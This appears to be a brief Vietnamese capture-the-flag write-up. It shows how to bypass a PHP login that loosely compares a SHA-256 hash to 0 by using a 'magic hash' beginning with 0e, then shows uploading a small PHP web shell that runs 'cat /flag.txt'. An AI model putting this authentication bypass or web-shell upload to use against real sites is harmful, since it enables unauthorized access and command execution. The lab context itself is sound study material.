

ctrl+U trong index.php


nó chỉ check hash của pass mình nhập vào so sánh với `0`, chúng ta cần tìm được 1 hash sha256 bắt đầu bằng 0e... vì 0e sẽ là giá trị 0.

google search magic hash sha256 mình tìm được repo [này](https://github.com/spaze/hashes/blob/master/sha256.md)

upload con shell này lên
```
<?php
	echo shell_exec('cat /flag.txt');
?>
```




